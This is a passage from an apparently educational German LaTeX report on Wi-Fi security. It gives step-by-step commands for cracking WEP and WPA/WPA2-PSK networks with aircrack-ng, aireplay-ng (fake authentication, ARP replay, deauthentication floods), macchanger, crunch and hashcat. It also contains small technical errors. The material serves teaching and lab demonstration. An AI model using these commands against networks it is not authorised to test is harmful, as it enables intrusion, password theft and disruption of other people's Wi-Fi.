Aus dem aufgenommenen Verkehr lässt sich im Anschluss daran der WEP-Schlüssel berechnen. Dies geschieht durch das Aufzeichnen der $2^{24}$ Schlüsselmöglichkeiten des IV, welche aufgrund der inkrementierenden Zählweise irgendwann wiederholt werden müssen. Bei einem durchschnittlich ausgelasteten Access Point sind die Datenpakete auf circa eine Stunde gesammelt. Allerdings ist es möglich, diesen Vorgang zu beschleunigen. \\
\\
\subsubsection{Theoretischer Aufbau eines WEP-Hacks}
\begin{enumerate}
	\item Vorbereiten des Netzwerkinterfaces
	\item Aktivieren des Monitoring-Mode
	\item WLAN mit WEP identifizieren
	\item Datenverkehr mit Airodump-ng aufzeichnen
	\item Authentifizierung am AP und generieren von Datenverkehr (optional)
	\item Errechnen des WEP-Kennworts
\end{enumerate}
Die genaue Beschreibung des Vorgangs wird im folgenden Punkt beschrieben.

\subsection{Cracking der WEP-Verschlüsselung}

	\subsubsection{Vorbereiten des Netzwerkinterfaces}
	Über den Befehl \colorbox{altgray}{\lstinline|ifconfig|} lässt sich erkennen, ob der WLAN-Adapter vom Host korrekt erkannt und initialisiert wurde. Dieser taucht normalerweise als \colorbox{altgray}{\lstinline|wlanX|} in der angezeigten Liste auf. Des Weiteren wird hier auch die MAC-Adresse des Adapters angezeigt. Beides wird im weiteren Verlauf noch benötigt.
	Anschließend muss die Netzwerkkarte einsatzbereit gemacht werden. Hierzu ist es nötig, eventuell
	störende Prozesse auf dem Host zu beenden. Hierzu wird ein Terminal geöffnet und der
	Befehl \colorbox{altgray}{\lstinline|airmon-ng check kill|} eingegeben.

	\subsubsection{Identifikation des Ziel-Netzwerks}
	Im nächsten Schritt identifizieren wir das WLAN, welches angegriffen werden soll. Der Befehl \colorbox{altgray}{\lstinline|airodump-ng wlanX|} gibt eine Liste mit in der Umgebung verfügbaren Netzwerken aus. Das X sollte durch die im ersten Schritt identifizierte Nummer des Interfaces ersetzt werden.
	Dabei wir das Interface automatisch in den Monitoring-Mode versetzt. Aus der angezeigten Liste wählen wir das entsprechende WLAN aus. Für später benötigen
	wir dabei die Art der Authentifizierung, den Netzwerknamen oder SSID, den Kanal und die BSSID oder Mac-Adresse des
	Ziels.

	\subsubsection{Cracking der Shared Key Authentication}
	Folgendes Kapitel ist nur relevant wenn das anzugreifende Netzwerk mit der Shared Key Authentication Variante von WEP gesichert ist. Für das Knacken von WEP-Shared-gesicherten Netzen muss eine Deauthentication vom AP vermieden werden. \\
	Für die Lösung dieses Problem bietet \colorbox{altgray}{\lstinline|aircrack-ng|} die Möglichkeit zur Erstellung eines PRGA (pseudo random generation algorithm) xor files wodurch eine Fake Authentication möglich wird. Der Vorgang wird nun beschrieben:

	\begin{enumerate}
		\item Start des Monitor Mode \\
		 Im ersten Schritt starten wir den Monitor Mode mit dem Befehl: \\ \colorbox{altgray}{\lstinline|airmon-ng start wlanX|}

		\item Erstellen eines PRGA-Files \\
		Starten von airodump-ng um ein PRGA-File anzulegen. Es muss gewartet werden bis eine Shared-Key-Authentication (SKA) aufgenommen wurde.\\
		\colorbox{altgray}{\lstinline|airodump-ng -c KANAL --bssid BSSID -w sharedkey wlanX|} \\
		\begin{itemize}
			\item -c spezifiziert den Kanal des WLANs
			\item Auf --bssid folgt die BSSID des Ziels
			\item -w sharedkey definiert das Präfix der PRGA xor Datei, dass für die Fake Authentication notwendig ist

			\item wlanX ist der Name des eigenen WLAN-Adapters
		\end{itemize}
		Die Aufnahme sieht wie folgt aus. Dabei ist zu beachten, dass unter AUTH das SKA erscheint wenn eine Shared-Key-Authentication (SKA) aufgenommen wurde erst dann ist der Vorgang erfolgreich.
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.9\textwidth]{images/WLAN/beispielSKA.JPG}
			\caption{SKA-Aufnahme}
			\label{fig:SKA-Aufnahme}
		\end{figure}

		Nach der erfolgreichen Aufnahme befinden sich drei neue Dateien im Verzeichnis. Beispiele für die drei Dateien zeigt folgende kleine Abbildung. Relevant für den nächsten Schritt ist die \colorbox{altgray}{\lstinline|sharedkey.xor|} Datei. Mit der Datei kann die Fake Authentication durchgeführt werden.

		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.9\textwidth]{images/WLAN/sharedBsp.JPG}
			\caption{Sharedkey Files}
			\label{fig:Sharedkey Files}
		\end{figure}

		\item Durchführen einer Shared-Key-Fake-Authentication \\
		Der folgende Befehl wird benutzt um die Shared-Key-Fake-Authentication durchzuführen und damit das Cracken des WEP-Shared gesicherten Netzes zu ermöglichen. \\
		\colorbox{altgray}{\lstinline|aireplay-ng -1 0 -e SSID -y sharedkey.xor -a BSSID -h WLAN-MAC wlanX|} \\
		\begin{itemize}
				\item -1 bedeuted, dass ein fake authentication durchgeführt wird und 0 steht für eine einmalige Authentication.
				\item -e spezifiziert die SSID des Ziels
				\item -y sharedkey.xor ist der Name der Datei die die PRGA xor bits enthält
				\item -a spezifiziert die BSSID des Ziels
				\item -h spezifiziert die BSSID des eignen WLAN-Adapters
				\item wlanX ist der Name des eigenen WLAN-Adapters
		\end{itemize}
		Sollte der Vorgang erfolgreich gewesen sein müsste folgende Ausgabe zu sehen sein:

		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.7\textwidth]{images/WLAN/sharedSuccess.JPG}
			\caption{Fake Authentication Success}
			\label{fig:Fake Authentication Success}
		\end{figure}

		\item Stop des Monitor Mode \\
		 Abschließend stoppen wir den Monitor Mode mit dem Befehl, da wir ihn im nachfolgenden Szenario nicht mehr benötigen. \\
		 \colorbox{altgray}{\lstinline|airmon-ng stop wlanX|} \\
		 Das WEP-Cracking-Verfahren wird im nächsten Kapitel fortgeführt. Ab dem nächsten Schritt unterscheidet sich das Cracking von der Open und Shared Variante von WEP nicht mehr.

	\end{enumerate}

	\subsubsection{Aufzeichnen der WLAN Pakete mit airodump}
	Nun muss der Netzwerkverkehr im Zielnetzwerk aufgezeichnet werden. Dies erledigt das
	Werkzeug airodump mit folgendem Befehl: \\
	\colorbox{altgray}{\lstinline|airodump-ng -c KANAL -w SSID --bssid BSSID wlanX|}
	Die Pakete werden in einem .cap-File aufgezeichnet, welches im aktuellen Verzeichnis angelegt wird.
	\begin{itemize}
		\item -c spezifiziert den Kanal des WLANs
		\item -w spezifiziert die SSID des Ziels
		\item Auf --bssid folgt die BSSID des Ziels
		\item wlanX ist der Name des eigenen WLAN-Adapters
	\end{itemize}
	\subsubsection{Injection Test auf das Zielnetzwerk}
	An dieser Stelle testen wir mit folgendem Befehl, ob das Ziel angreifbar ist: \colorbox{altgray}{\lstinline|aireplay-ng -9 -e SSID -a BSSID wlanX|}
		\begin{itemize}
			\item -9 definiert einen Injection Test mit \colorbox{altgray}{\lstinline|aireplay-ng|}
			\item -e spezifiziert die SSID des Ziels
			\item -a spezifiziert die BSSID des Ziels
			\item wlanX ist der Name des eigenen WLAN-Adapters
		\end{itemize}

	\subsubsection{Generieren von zusätzlichem Datenverkehr auf dem Access Point}
	Um die für einen erfolgreichen Angriff benötigte Datenmenge schnell zu erreichen, gibt es die
	Möglichkeit authentication-Pakete in das Netzwerk einzuschleusen. Dabei kann der Angriff auf das
	Netzwerk allerdings entdeckt werden. Zunächst öffnen wir ein neues Terminal. Anschließend authentifizieren wir uns mithilfe des Tools \colorbox{altgray}{\lstinline|aireplay-ng|} am Access Point mit dem Befehl \colorbox{altgray}{\lstinline|aireplay-ng - 1 6 -o 1 -q 1 -e SSID -a BSSID -h WLAN-MAC wlanX|}
			\begin{itemize}
				\item - 1 6 steht für den fake authentication-modus, bei dem sich alle 6 Sekunden wieder authentifiziert wird
				\item -h spezifiziert die BSSID des eigenen WLAN-Adapters
				\item -e spezifiziert die SSID des Ziels
				\item Mit -o 1 wird veranlasst nur eine Ladung von Paketen auf einmal zu versenden. Der Defaultwert ist die mehrfach Sendung von Paketen was manche Access Points verwirren kann
				\item -a spezifiziert die BSSID des Ziels
				\item -q 1 sendet jede Sekunde eine keep-alive-Nachricht
				\item wlanX ist der Name des eigenen WLAN-Adapters. Dies ist nötig, da der Access Point sonst die injizierten Pakete verwirft und keinen verwertbaren Datenverkehr zurückliefert.
			\end{itemize}

	\subsubsection{Lauschen auf ARP-Requests und injizieren ins Ziel}
	Anschließend lauschen wir auf ARP-Requests anderer Teilnehmer im Netzwerk, was natürlich nur entstehen kann, wenn sich andere Teilnehmer im Zielnetzwerk befinden, und - wenn
	genügend zusammen gekommen sind - injizieren wir diese ins Netzwerk mit \colorbox{altgray}{\lstinline|aireplay-ng -3 -b BSSID -h WLAN-MAC wlanX|}.
	Die Anzahl an aufgezeichneten Datenpaketen im ersten Terminal sollte nun innerhalb
	kürzester Zeit stark steigen.
			\begin{itemize}
				\item -3 steht für einen ARP-Replay
				\item -e spezifiziert die SSID des Ziels
				\item -b spezifiziert die BSSID des Ziels
				\item -h spezifiziert die BSSID des eignen WLAN-Adapters
				\item wlanX ist der Name des eigenen WLAN-Adapters
			\end{itemize}
	Als zusätzliche Information bei diesem Schritt ist zu beachten, dass manche Router durch die vielen Anfragen überfordert sind und deswegen kann es notwendig sein das Reinjizieren der ARP-Requests zu unterbrechen, um den Angriff nicht zu gefährden.

	\subsubsection{Errechnen des WEP-Kennworts}
	Sind genügend Datenpakete zusammen gekommen, so kann mit der Berechnung des Schlüssels begonnen werden. \\Der Befehl \colorbox{altgray}{\lstinline|aircrack-ng -b BSSID FILENAME|} führt die Berechnung durch.
				\begin{itemize}
					\item FILENAME steht für die Datei des zuvor aufgezeichneten Datenverkehrs
					\item -b spezifiziert die BSSID des Ziels
				\end{itemize}

	 Sollte alles korrekt verlaufen sein, wird der WEP-Schlüssel nun vom Programm ausgegeben. Es kann einige Zeit dauern bis der Schlüssel korrekt berechnet ausgegeben wird und bis dahin kann es vorkommen, dass einige Male Fehler ausgegeben werden bis genug Daten gesammelt wurden. Eine beispielhafte korrekte Ausgabe zeigt folgende Grafik. Die erste Zeile ist hierbei besonders relevant, weil hier gezeigt werden wie viele IV-Datenpakete gesammelt wurden und wie viele keys versucht wurden.

	 		\begin{figure}[H]
	 			\centering
	 			
\includegraphics[width=0.9\textwidth]{images/WLAN/wepkey.png}
	 			\caption{WEP Schlüsselberechnung}
	 			\label{fig:WEP Schlüsselberechnung}
	 		\end{figure}

\subsection{Fazit}
Das WEP-Verschlüsselungsprotokoll ist heutzutage nicht mehr zeitgemäß. Es ist veraltet und unsicher egal in welcher Variante, weswegen man auch keine Router mehr finden sollte, die dieses Verschlüsselungsprotokoll verwenden. Dennoch findet man auch heute noch Router die WEP verwenden, auch wenn sie es nicht mehr sollten. Die Schlüssellänge verändert außerdem nur unwesentlich die Sicherheit von WEP. Abschließend lässt sich sagen, dass Wired Equivalent Privacy schnellstmöglich durch neuere Verfahren wie WPA2 ausgetauscht werden sollte, die die Sicherheit eher garantieren können.
\newpage

\section{WPA/WPA2}

WPA (WiFi Protected Access) ist die teilweise Implementierung des Sicherheitsstandards IEEE  802.11i für Funknetzwerke nach den WLAN-Standards IEEE 802.11a, b, g, n und ac. Ziel von WPA war es, nachdem die WEP-Verschlüsselung gebrochen wurde, rasch eine sichere Alternative zu bieten, die zudem kompatibel zur bereits auf dem Markt verfügbarer Hardware war. Die definierte Grundarchitektur für Schlüsselaustausch, Schlüsselgenerierung, Erneuerung des Schlüsselmaterials und Schutz der ausgetauschten Pakete von IEEE 802.11i wurde in WPA umgesetzt, allerdings wurden nicht die vom Standard vorgeschriebenen Algorithmen eingesetzt. Da WPA keine starken Krytographieverfahren unterstützt war es nur eine Frage der Zeit, wann auch dieses Verfahren geknackt wird. \\
Mit WPA2 erfolgte dann die vollständige Umsetzung von IEEE 802.11i. Im Gegensatz zu WPA verwendet WPA2 den Verschlüsselungsstandard Advanced Encryption Scheme (AES), wenn CCMP als Protokoll verwendet wird. WPA hingegen unterstützt nur die Stromchiffre RC4, die mit TKIP eingesetzt wird. \\
Die Implementierungen bestehen aus einer Kombination von Authentifizierung und Verschlüsselung, um ein WLAN sicher zu betreiben. Die Authentifizierung erfolgt entweder mit einem Passwort (Personal Mode), dem sogenannten Pre-Shared-Key (PSK), oder unter Verwendung eines RADIUS-Servers (Enterprise Mode), um den Zugriff durch unberechtigte Personen zu verhindern. \\

\subsection{WPA/WPA2 Personal Mode}
Im Personal Mode erfolgt die Netzwerk-Authentifizierung mit einem PSK, über den sowohl der Client als auch der Access-Point verfügen. Der PSK besitzt dabei eine Länge von 8 bis 63 Zeichen. Aus dem PSK berechnet sich der Pairwise Master Key (PMK) durch die Verwendung des Schlüsselableitungsverfahrens PBKDF2. Die Schwachstelle bei der PSK-Authentifikation ist der 4-Wege-Handshake der im nachfolgenden Abschnitt genauer beleuchtet wird.

\newpage
\subsubsection{Schwachstelle: 4-Wege-Handshake} \label{4wh}
Die Schwachstelle, welche bei Angriffen gegen WPA bzw. WPA2 ausgenutzt wird liegt im 4-Wege-Handshake der zur Authentifizierung durchgeführt wird. Der Handshake besteht aus folgenden Aktionen:
\begin{figure}[ht!]
	\centering
	
\includegraphics[width=0.5\textwidth]{images/WLAN/handshake.png}
	\caption{WPA/WPA2 4-Wege-Handshake (Quelle: kalitutorials.com)}
	\label{fig:WPA handshake}
\end{figure}

Wie in Grafik \ref{fig:WPA handshake} zu sehen, sendet bei einer Authentifikationsanfrage zuerst der Router (Access Point AP) eine Zufallszahl (ANonce) an den Client (STA). Dieser kann dann zusammen mit seiner Zufallszahl (SNonce) den Pairwise Transient Key (PTK) berechnen. Der PTK leitet sich aus dem PMK, den beiden Zufallszahlen aus dem Handshake und den MAC-Adressen ab. Dementsprechend berechnet er sich:

\begin{equation}
PTK = PMK + ANonce +SNonce  + MAC_{Client} + MAC_{AP}
\end{equation}

Anschließend sendet der STA nun noch seine SNonce zu, damit auch der AP den PTK berechnen kann. Zusätzlich schickt er ihm noch einen Message Integrity Code (MIC) mit, um Authentizität und Integrität zu gewährleisten. \\
Der PTK kann nun für die Verschlüsselung der Kommunikation zwischen Client und AP verwendet werden. Für eine Multicast-Kommunikation zwischen Client und anderen Clients wählt der AP einen zufälligen Group Master Key (GMK). Aus diesem leitet sich der Group Transient Key (GTK) ab, der wiederum an die Gruppenmitglieder verteilt wird. Falls ein Gruppenmitglied die Gruppe verlässt, müssen alle Nutzer die Schlüssel austauschen. \\
Zum Abschluss bestätigt der Client noch einmal dem AP die Kommunikation und schließt damit den 4-Wege-Handshake ab.\\
Angriffspunkt ist der MIC, welcher zur Integritätsprüfung mit übertragen wird. Dieser wird mit Hilfe des PMK berechnet. Der PMK wiederum wird vom PSK abgeleitet. Die Hashfunktion zur Berechnung des MIC kann bis heute nicht gebrochen werden, weshalb nur mittels Bruteforcing oder Wörterbuchangriff eine Übereinstimmung gefunden werden kann. Ist der PMK erfolgreich extrahiert, muss erneut per Bruteforcing/Wörterbuchangriff eine Übereinstimmung gefunden werden.

\subsubsection{Cracking des WPA/WPA2 PSK}
 Möchte ein Angreifer nun in das Netzwerk eindringen, muss er dieses Passwort herausfinden. Grundsätzlich gibt es beim Hacken keine Unterschiede zwischen WPA- und WPA2-gesicherte WLANs. Es ist immer das Ziel einen vollständigen 4-Wege-Handshake  aufzuzeichnen, aus dem dann das Passwort extrahiert werden kann. Wie im Abschnitt zuvor angedeutet erfolgt dies mit Hilfe von Bruteforcing oder einer sogenannten Wörterbuch-Attacke (engl. dictionary-attack). Bei Ersterem werden einfach alle Kombinationen bestehend aus Buchstaben, Ziffern und Sonderzeichen, oder nur einem Ausschnitt davon, bis zur gewünschten Länge auf Übereinstimmung getestet. Je nach Länge und Komplexität des Passworts kann sich dieser Vorgang über viele Stunden, bis zu Tagen und sogar mehreren Jahren hinziehen, da die Anzahl der möglichen Kombinationen exponentiell zur Länge des Passworts zunimmt. Häufig wird deshalb vor einer Bruteforce-Attacke eine Wordlist, wie bei einem Dictionary-Angriff, mit allen zu testenden Kombinationen erstellt. Bei einem Wörterbuch-Angriff wird somit durch die Passwortkandidaten in einer riesigen Wordlist iteriert und mit dem herauszufindenden Passwort abgeglichen. \\
Wörterlisten können entweder selber generiert werden oder sind auch im Internet zu finden. Wie  später noch zu sehen ist, gibt es auch hybride Ansätze, die beide Angriffsarten verknüpfen. Ein erfolgreicher Angriff steht und fällt mit einer guten Wordlist, in der das WLAN-Passwort enthalten sein muss/sein sollte). Darin besteht die eigentliche Schwierigkeit eines Angriffes auf ein WPA/WPA2-gesichertes WLAN. \\
Nachfolgend nun exemplarische eine Möglichkeit einen WPA/WPA2-PSK zu cracken:

\begin{enumerate}
	\item {Check des WLAN Adapter} \\
	Falls ein externer Adapter verwendet wir, muss folgendes beachtet werden. Zuerst muss geprüft werden, ob der eingesteckte USB oder der interne WLAN-Adapter richtig erkannt wird und somit einsatzbereit ist. Dazu muss das Terminal geöffnet und der Befehl \colorbox{altgray}{\lstinline|ifconfig|} eingegeben werden.

	Der Adapter sollte als Interface, meist wlan0 oder wlan1 (meist bei einem externen WLAN-Adapter), angezeigt werden. Im Folgenden muss bei allen Befehlen die Interface-Bezeichnung mit der hier Angezeigten ersetzt werden, da sie sich von Rechner zu Rechner abhängig von der Anzahl der installierten WLAN-Adapter unterscheiden kann. Der Name kann abhängig von der verwendeten Linux-Distribution auch stärker abweichen, weshalb die Verwendung von Kali-Linux empfohlen wird.

	\item {Exkurs MAC-Spoofing} \\
Im Sinne von Wireless Security sollte man sich immer im Klaren sein, dass ein Angreifer immer in der Lage ist seine MAC-Adresse zu verändern, weswegen dieser Absatz hier zwar aufgeführt ist aber in den Versuchsskripten nicht genutzt wird. Dieser Vorgang wird auch Spoofing genannt. Die MAC-Adresse ist eine herstellerspezifische Kennung, die fest einem Netzwerkgerät zugeordnet ist. Jede Adresse ist eindeutig. Findet man die MAC-Adresse eines Angreifers heraus, kann mit Hilfe dieser Identifikationskennung festgestellt werden, welchen Typ von Antenne er verwendet. Diese Erkenntnis kann helfen einen Angreifer zu identifizieren. Verwendet ein Angreifer nun eine gefälschte MAC-Adresse können keine Rückschlüsse auf seine Identität gezogen werden, da überall nur seine Fake-Adresse angezeigt wird. Zuerst muss dafür das WLAN Interface deaktiviert werden. Danach kann mit dem Kommando \colorbox{altgray}{\lstinline|macchanger|} die Adresse geändert werden:\newline
	\newline
	\colorbox{altgray}{\lstinline|ifconfig wlanX down|}\newline
	\newline
	\colorbox{altgray}{\lstinline|macchanger -r wlanX|}\newline
	\newline
	wobei wlanX (auch in den folgenden Fällen) an das verwendete WLAN-Interface angepasst werden muss.\newline

	Beim Bestätigen des Befehls, wird die eigene MAC-Adresse in eine zufällige generierte MAC-Adresse geändert und auf der Konsole angezeigt. Anschließend kann das Interface mit folgendem Befehl wieder aktiv gesetzt werden.

	\colorbox{altgray}{\lstinline|ifconfig wlanX up|}\newline
	\newline
	Mit dem Befehl: \newline

	\colorbox{altgray}{\lstinline|ifconfig wlanX|}\newline

	kann überprüft werden, ob die gespoofte MAC-Adresse auch aktiv ist.\newline
	Dieser Schritt wird im Vorführskript übersprungen.

	\item {Das Interface in den Monitor Mode versetzen} \\
	Damit mit dem WLAN Adapter Pakete aufgezeichnet werden können, muss sich der Adapter im Monitoring Mode, oder auch Packet Injection Mode genannt, befinden. \\
	Dies wird mit folgendem Befehl erreicht:

	\colorbox{altgray}{\lstinline|airmon-ng start wlanX|}\newline

	Mit dem Befehl \newline
	\colorbox{altgray}{\lstinline|airmon-ng check kill|}\newline \newline
	werden alle andere Prozesse beendet, die auch auf den Netzwerkadapter zugreifen können. So können Konflikte beim Zugriff auf die Ressource vermieden werden.\newline

	\item {Aufzeichnen der WLAN Pakete mit \colorbox{altgray}{\lstinline|airodump-ng|}}\\
	Im nächsten Schritt werden die WLAN Pakete aus der Umgebung aufgezeichnet. Damit möchte man einen Handshake zwischen dem zu hackenden Access Point und einem Client aufzeichnen. Anhand dessen kann anschließend das Passwort herausgefunden werden. Der Name des WLANs ändert sich hier für gewöhnlich es ist also eine weitere Runde mit \colorbox{altgray}{\lstinline|ifconfig|} sinnvoll, um sicherzustellen, dass man den korrekten WLAN-Namen verwendet. Mit dem folgenden Befehl können wir nun in den Aufzeichnungsmodus umschalten: \newline

	\colorbox{altgray}{\lstinline|airodump-ng -b a wlanXmon|}
	\begin{itemize}
		\item \bashCommand{-b a} Führe den Scan auch im 5 GHz Band durch
	\end{itemize}

	Sollten keine Daten aufgezeichnet werden, dann sollte der Adapter mehrmals aus- und wieder eingesteckt werden. Nach einem Reconnect muss der Adapter natürlich wieder in den Monitoring Modus versetzt werden. Hat alles soweit geklappt, sollten alle erreichbaren SSIDs mit ihren jeweiligen Sendern angezeigt werden. Als nächstes sollte die MAC-Adresse und der verwendete Kanal des zu hackenden APs, sowie die SSID notiert werden. Anschließend kann durch einen neuen \colorbox{altgray}{\lstinline|airodump-ng|} Durchlauf mit der MAC und dem Kanal als Parameter (nähere Infos unter \colorbox{altgray}{\lstinline|man airodump-ng|} abrufbar) der Scan eingeschränkt werden. Zusätzlich kann auch der Name der Ausgabedatei festgelegt werden. Der Befehl sieht dann in etwa wie nachfolgend aus:\\
	\\
	\colorbox{altgray}{\lstinline|airodump-ng -c Kanal -b a --bssid BSSID --showack -w Filename wlanXmon|}
	\begin{itemize}
		\item \bashCommand{-c} Kanal des Ziels angeben
		\item \bashCommand{-b a} Führe den Scan auch im 5 GHz Band durch
		\item \bashCommand{--bssid} BSSID (MAC) des Ziels angeben
		\item \bashCommand{--showack} Erweiterte Ausgabe bezüglich ACKs
		\item \bashCommand{-w} Prefix für die Ausgabedatei angeben (z. B. SSID des Ziels)
	\end{itemize} 

	Verbindet sich nun ein Client auf den AP, so kann der 4-way-handshake mitgelesen werden, was auch in der Konsole, in der rechten oberen Ecke, angezeigt wird. Hat dies funktioniert, ist der erste Schritt für das Hacken des Passworts abgeschlossen. Um diesen Vorgang zu beschleunigen, kann mithilfe von \colorbox{altgray}{\lstinline|aireplay-ng|} ein Verbindungsabbruch eines Clients erzwungen werden, wodurch dieser sich erneut mithilfe eines 4-way-handshakes verbinden muss. Dazu wird folgender Befehl verwendet:\newline\newline

	\colorbox{altgray}{\lstinline|aireplay-ng --deauth 100 -a router_bssid wlanXmon|}
	\begin{itemize}
		\item \bashCommand{--deauth} Attackmode Deauth auswählen, mit Anzahl der zu sendenden Pakete
		\item \bashCommand{-a} Angabe der BSSID
	\end{itemize}
	
	\item Betriebsfähigkeit wiederherstellen \\

	Um diesen und auch andere WLAN-Adapter nach diesen Schritten wieder wie gewohnt nutzen zu können, muss der Monitor Mode beendet und der Network-Manager neugestartet werden. Dies geschieht über die Befehle:\\
	\\
	\colorbox{altgray}{\lstinline|airmon-ng stop wlanXmon|}\\
	und\\
	\colorbox{altgray}{\lstinline|service network-manager restart|}\\
	\\
	Dadurch sollten die WLAN-Adapter wieder problemlos nutzbar sein.

	\item Cracken des Passworts \\
	Zum Cracken des Passworts werden nachfolgend zwei Tools verwendet und vorgestellt.
	\end{enumerate}
	
	


	\subsubsection{Cracken des Passwortes mittels aircrack-ng}
	\begin{enumerate}
	\item Dictionary Attacke mit \colorbox{altgray}{\lstinline|aircrack-ng|} \\
	Dazu wird ein Dictionary File mit allen Passwörtern benötigt, die auf Übereinstimmung mit dem PSK gecheckt werden sollen. Im Projekt-Verzeichnis sollte bereits ein Beispiel-Dictionary mit den Passwörtern der Vorführgeräte vorbereitet sein. Mit folgendem Befehl kann der Dictionary-Angriff gestartet werden:

	\colorbox{altgray}{\lstinline|aircrack-ng -w dict.file -b BSSID File.cap|}
	\begin{itemize}
		\item \bashCommand{-w} Angabe des Dictionarys
		\item \bashCommand{-b} Angabe der BSSID des Ziels
	\end{itemize}

	\item Brutefore Angriff mit \colorbox{altgray}{\lstinline|aircrack|} und \colorbox{altgray}{\lstinline|crunch|}\\
	\\
	\colorbox{altgray}{\lstinline|crunch 8 12 abcdeABCDE {|} aircrack-ng --bssid BSSID -w- hack-wifi-01.cap|}
	\begin{itemize}
		\item \bashCommand{8 12} Minimale und Maximale Passwortlänge
		\item \bashCommand{abcdeABCDE} Verwendete Zeichen
		\item \bashCommand{--bssid} Angabe der BSSID des Ziels
		\item \bashCommand{-w} Pfad zur Wordlist (- steht dabei für die Standardeingabe)
	\end{itemize}
	\end{enumerate}

	\subsubsection{Cracken des Passwortes mittels hashcat}
	Bei \colorbox{altgray}{\lstinline|hashcat|} handelt es sich wohl um den derzeit schnellsten Passwortcracker auf dem Markt, der als Alternative zu \colorbox{altgray}{\lstinline|crunch|} und \colorbox{altgray}{\lstinline|aircrack-ng|} verwendet werden kann.  \colorbox{altgray}{\lstinline|Hashcat|} verwendet die GPU, was bei Notebooks, virtuellen Umgebungen und Live-Systemen ohne proprietäre Grafiktreiber zu Problemen führen kann, weswegen das Cracken mit \colorbox{altgray}{\lstinline|hashcat|} in den beiliegenden Versuchsskripten nicht verwendet wird. Mit einer aktuelle Grafikkarte wie der "`nVidia GeForce GTX 1080"' (Stand Dezember 2016) können dabei bis zu 400.000 Passwörter pro Sekunde überprüft werden. Der Vollständigkeit wegen wurde \colorbox{altgray}{\lstinline|hashcat|} dennoch aufgeführt und kann bei Interesse mit den nachfolgenden Befehlen getestet werden,falls die verwendete Grafikkarte mit \colorbox{altgray}{\lstinline|hashcat|} kompatibel ist. Wichtig ist auch, dass eine dedizierte Grafikkarte mit OpenCL-fähigen Treibern benötigt wird.\newline
Mit dem nachfolgendem Befehl wir die cap-Datei in eine hccap-Datei umgewandelt, was der erste Schritt zur Nutzung von \colorbox{altgray}{\lstinline|hashcat|} ist.\newline
	\\
	\colorbox{altgray}{\lstinline|aircrack-ng Filename.cap -J newFilename|}
	\begin{itemize}
		\item \bashCommand{Filename.cap} Pfad bzw. Name des alten .cap files
		\item \bashCommand{-J newFilename} Angabe des Pfads bzw. Namens des neuen .hccap file
	\end{itemize}
	Mit \colorbox{altgray}{\lstinline|hashcat --help|} kann eine Hilfeseite aufgerufen werden in welcher der Befehl, die Parameter und die Verwendung genauer erläutert werden. Falls Probleme auftreten oder detailliertere Einstellungen vorgenommen werden sollen, sollte die Hilfeseite die erste Anlaufstelle sein.
	\begin{enumerate}

	\item Dictionary-Attacke mit \colorbox{altgray}{\lstinline|hashcat|}

	\colorbox{altgray}{\lstinline|hashcat -m 2500 capture.hccap dict.txt|}
	\begin{itemize}
		\item \bashCommand{-m 2500} Art des Hashes (2500 für WPA/WPA2)
		\item \bashCommand{capture.hccap}  Pfad bzw. Name der hccap Datei
		\item \bashCommand{dict.txt} Pfad bzw. Name der Dictionary Datei
	\end{itemize}

	Dadurch wird das Dictionary genutzt, um das Passwort zu finden. Mit Enter kann der aktuelle Status des Vorgangs abgefragt werden.
	\\
	\item Bruteforce-Attacke mit \colorbox{altgray}{\lstinline|hashcat|}

	\colorbox{altgray}{\lstinline|hashcat -m 2500 -a3 capture.hccap ?d?d?d?d?d?d?d?d|}\newline
	\begin{itemize}
		\item \bashCommand{-m 2500} Art des Hashes (2500 für WPA/WPA2)
		\item \bashCommand{-a3} Verwende Bruteforce
		\item \bashCommand{capture.hccap}  Pfad bzw. Name der hccap Datei
		\item \bashCommand{?d..?d} Definierte Maske fuer zu testenden Passwortkandidaten, Anzahl entspricht "`bis zu Länge'\newline
			Optionen:
			\begin{itemize}
				\item \bashCommand{?l} abcdefghi...yz
				\item \bashCommand{?u} ABCDEFGHI...YZ
				\item \bashCommand{?s} Sonderzeichen
				\item \bashCommand{?d} 0123456789
				\item \bashCommand{?b} 0x00 - 0xFF
				\item \bashCommand{?a} ?l?u?d?s
			\end{itemize}
	\end{itemize}

	Bei der Bruteforce Attacke werden alle Kombinationen von Buchstaben bis zu einer bestimmten Länge getestet. Als letzter Parameter kann eine Art Maske angegeben werden, mit welcher die Länge und die zu testenden Ziffern, Buchstaben und Zeichen festgelegt werden. Im Beispiel werden alle bis zu neun stelligen Zahlenkombinationen von \colorbox{altgray}{\lstinline|hashcat|} durchprobiert.\newline

	\item rule-based Attacke mit \colorbox{altgray}{\lstinline|hashcat|}

	\colorbox{altgray}{\lstinline|hashcat -m 2500 -r /usr/share/hashcat/rules/best64.rule capture.hccap dict.txt|}\newline
	\begin{itemize}
		\item \bashCommand{-m 2500} Art des Hashes (2500 für WPA/WPA2)\newline
		\item \bashCommand{-r} Verwende rule-based Angriff und anschließende Pfadangabe\newline
    \end{itemize}
